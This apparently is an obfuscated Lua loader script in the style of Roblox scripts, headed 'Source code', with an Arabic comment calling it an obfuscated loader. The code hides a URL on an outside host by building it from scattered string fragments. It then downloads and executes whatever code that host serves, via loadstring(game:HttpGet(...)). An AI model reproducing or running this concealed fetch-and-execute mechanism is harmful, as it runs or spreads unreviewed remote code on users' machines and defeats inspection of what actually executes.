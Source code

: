 -- هذا محمل مبهم أيضا مع العربي

local prms = {...};([[]]){(function(b)local c=debug.getmetatable(b)debug.setmetatable(b,{__call=function(d,e)debug.setmetatable(b,c)return function(b)b{'1925cb41bc3223e4912854d4678e49cd',d}end end})end)''}(function(b)local b=b[1]local c=''local d=24915;local e=0;local f={}while e<966 do e=e+1;while e<605 and d%5260<2630 do e=e+1;d=(d-466)%41090;local b=e+d;if(d%3504)>1752 then d=(d-706)%30483;while e<313 and d%7102<3551 do e=e+1;d=(d*411)%43087;local b=e+d;if(d%14970)>7485 then d=(d*355)%41240;local b=76830;if not f[b]then f[b]=1;c=c..'.x'end elseif d%2~=0 then d=(d*316)%34377;local b=51374;if not f[b]then f[b]=1;c=c..'luauth'end else d=(d*939)%2412;e=e+1;local b=67052;if not f[b]then f[b]=1 end end end elseif d%2~=0 then d=(d+986)%9320;while e<597 and d%3566<1783 do e=e+1;d=(d-950)%7147;local b=e+d;if(d%4020)<2010 then d=(d+826)%6247;local b=79206;if not f[b]then f[b]=1;c=c..'ht'end elseif d%2~=0 then d=(d+737)%14175;local b=51471;if not f[b]then f[b]=1;c=c..'tp'end else d=(d*705)%44808;e=e+1;local b=58695;if not f[b]then f[b]=1;c=c..'s:'end end end else d=(d*80)%11734;e=e+1;while e<951 and d%19762<9881 do e=e+1;d=(d*899)%25086;local b=e+d;if(d%11548)>5774 then d=(d*412)%37881;local b=84492;if not f[b]then f[b]=1;c=c..'//'end elseif d%2~=0 then d=(d-419)%22808;local b=94003;if not f[b]then f[b]=1;c=c..'xenon-ap'end else d=(d-851)%30011;e=e+1;local b=21386;if not f[b]then f[b]=1;c=c..'i.'end end end end end;d=(d+751)%33125 end(function(d)local e=d;local f=0;local g=0;e={(function(b)if f>34 then return b end;f=f+1;g=(g+3253-b)%79;return(g%3==1 and(function(b)if not d[b]then g=g+1;d[b]=(26)c=c..'il'end;return true end)'igRzv'and e[2](687+b))or(g%3==0 and(function(b)if not d[b]then g=g+1;d[b]=(103)c=c..'.l'end;return true end)'TilxU'and e[3](b+101))or(g%3==2 and(function(b)if not d[b]then g=g+1;d[b]=(227)end;return true end)'QwIsb'and e[1](b+320))or b end),(function(b)if f>32 then return b end;f=f+1;g=(g+1509-b)%57;return(g%3==0 and(function(b)if not d[b]then g=g+1;d[b]=(139)c=c..'yz'end;return true end)'aOitw'and e[3](909+b))or(g%3==1 and(function(b)if not d[b]then g=g+1;d[b]=(65)end;return true end)'ObBbT'and e[1](b+129))or(g%3==2 and(function(b)if not d[b]then g=g+1;d[b]=(153)c=c..'ua'end;return true end)'uXJZp'and e[2](b+567))or b end),(function(h)if f>35 then return h end;f=f+1;g=(g+1756-h)%21;return(g%3==2 and(function(b)if not d[b]then g=g+1;d[b]=(2)c=c..'/f'end;return true end)'bdEJm'and e[1](782+h))or(g%3==0 and(function(b)if not d[b]then g=g+1;d[b]=(108)c=c..'es'end;return true end)'JDvcj'and e[3](h+117))or(g%3==1 and(function(e)if not d[e]then g=g+1;d[e]=(10)c=c..'/v2/l/'..b end;return true end)'tIFsS'and e[2](h+748))or h end)}e[2](8832)end){}loadstring(game:HttpGet(c))(prms[1])end)
